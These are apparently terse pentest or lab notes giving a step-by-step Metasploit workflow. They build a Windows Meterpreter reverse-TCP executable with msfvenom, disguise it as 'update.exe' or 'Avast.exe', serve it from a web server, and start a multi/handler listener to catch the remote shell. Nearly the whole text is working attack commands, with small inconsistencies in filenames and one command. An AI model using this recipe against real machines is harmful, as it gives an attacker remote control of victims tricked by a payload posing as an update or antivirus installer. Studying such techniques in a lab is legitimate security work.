 msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=4444 -f exe > update.exe
sudo cp Avast.exe /var/www/html
service apache2start
python -m http.server 8080

Starting the Listener:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost (machine ip)
exploit


Note:

module | type of payload | meterpreter shell | taking reverse tcp connection
lhost=ifconfig local ip

